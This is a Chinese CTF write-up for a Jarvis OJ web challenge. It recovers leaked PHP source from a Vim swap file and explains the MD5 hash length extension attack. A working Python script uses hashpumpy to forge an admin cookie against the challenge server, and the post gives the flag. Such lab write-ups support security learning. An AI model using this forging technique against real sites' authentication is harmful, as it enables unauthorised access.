## 描述

只有管理员才能获得flag，你能想办法获得吗？

题目链接：http://web.jarvisoj.com:32778/

## 题解

```html
<!DOCTYPE html>
<html>
<head>
<title>Web 350</title>
<style type="text/css">
    body {
        background:gray;
        text-align:center;
    }
</style>
</head>

<body>
    <h3>Only Admin can see the flag!!</h3>	
</body>
</html>
```

在 Response Headers 里发现有趣的东西

```
Set-Cookie: role=s%3A5%3A%22guest%22%3B
Set-Cookie: hsh=3a4727d57463f122833d9e732f94e4e0
```

突破口应该就是这个吧，反转义后是 `role=s:5:"guest";` 怎么看都是被序列化了。后面那一串有 32 位，应该是 MD5，尝试将 `role` 的各种形式的串拿去加密成 MD5，发现都对不上。尝试直接修改 `role` 里的 `guest` 为 `admin` 然后交一下，发现没得卵用，应该还是要变更 `hsh` 这个。

会不会加了盐啊？还是啥啊，有毒。还是看题解吧。

wdnmd，又是一个源码泄露的套路，日。以后记得用御剑扫一下。

可以直接打开 http://web.jarvisoj.com:32778/index.php~ ，`strings` 一下能发现代码是倒过来的。。。再用 `tac` 翻转一下便能得到代码

```html
<!DOCTYPE html>
<html>
<head>
<title>Web 350</title>
<style type="text/css">
    body {
        background:gray;
        text-align:center;
    }
</style>
</head>

<body>
    <?php 
        $auth = false;
        $role = "guest";
        $salt = 
        if (isset($_COOKIE["role"])) {
            $role = unserialize($_COOKIE["role"]);
            $hsh = $_COOKIE["hsh"];
            if ($role==="admin" && $hsh === md5($salt.strrev($_COOKIE["role"]))) {
                $auth = true;
            } else {
                $auth = false;
            }
        } else {
            $s = serialize($role);
            setcookie('role',$s);
            $hsh = md5($salt.strrev($s));
            setcookie('hsh',$hsh);
        }
        if ($auth) {
            echo "<h3>Welcome Admin. Your flag is 
        } else {
            echo "<h3>Only Admin can see the flag!!</h3>";
        }
    ?>
    
</body>
</html>
```

（后来看题解居然发现是 Vim 的 `.swp` 文件，惊了！重命名后用 `vim -r` 便能重新打开！我说怎么在文件开头看到了 VIM 7.4 这几个字）

`salt` 被隐藏了，难道要爆破？看看题解吧。

woc 惊了，加盐的 MD5 是有漏洞的！哈希长度拓展攻击！可以看这篇文章 https://www.freebuf.com/articles/web/31756.html

在这里我稍微简单介绍一下。

假设服务器有 `salt` 数据为 `data`，产生哈希的方式是 `MD5(salt + data)`，由于哈希会分块（比如 512 bit），不妨假设 `salt + data` 不超过 512 bit。

根据哈希算法的性质，假若 `salt + data` 小于 512 bit，那么会自动填充一些已知数据 `pad` 到后面，即 `salt + data + pad`，此时有 `MD5(salt + data) == MD5(salt + data + pad)`，那么我们可以尝试枚举 `pad` 的长度，然后就能验证出 `salt` 的长度了！

这样有什么好处呢？假如我们已知了 `MD5(salt + data)` 和 `data` 和 `pad`（上述做法求出），而 `MD5` 会用前面一个区块（即前 512 bit）的 MD5 值与这一区块的信息以已知的方式（不妨设为映射 `f`）加密得到整体的 MD5 值，那么有以下式子成立：

`f(MD5(salt + data), new) = MD5(salt + data + pad + new)`

其中 `new` 是我们给的新的数据。那么这个式子便足以解决本题！因为右式已知 `data`、`new` 和 `pad`（就算不知道可以暴力枚举长度），然后便能利用服务器帮忙算出来。左式的话我们已知 `f`、`MD5(salt + data)` 和 `new`，因此能在本地计算出来。这样就能构造出合法的 `role` 与 `hsh` 从而提交上去使得验证部分成功。

在这里有个现成的轮子叫 [HashPump](https://github.com/bwall/HashPump)，直接用就好。

```python
import requests,urllib
import hashpumpy
url = 'http://web.jarvisoj.com:32778'
headers = {
    'cookie': ''
}
key = '3a4727d57463f122833d9e732f94e4e0'
role = 's:5:"guest";'
data = role[::-1]
new = 's:5:"admin";'[::-1]
for pad in range(64):
    print('pad = ' + str(pad))
    f, msg = hashpumpy.hashpump(key, data, new, pad)
    headers['cookie'] = 'role={}; hsh={}'.format(urllib.parse.quote(msg[::-1]), f)
    print('cookie: ' + headers['cookie'])
    r = requests.get(url, headers=headers)
    if 'Welcome' in r.text:
        print(r.text)
        break
```

当 pad = 12 的时候变得到了答案。

要注意，虽然长度攻击的 `add` 可以设置任意值，但是在本题里，由于还有一句 `$role==="admin"`，因此 `add` 必须要设置为 `admin` 序列化的字符串。

这个故事告诉我们，不要把 `salt` 放到前面，起码要放到后面吧。

## 答案

PCTF{H45h_ext3ndeR_i5_easy_to_us3}
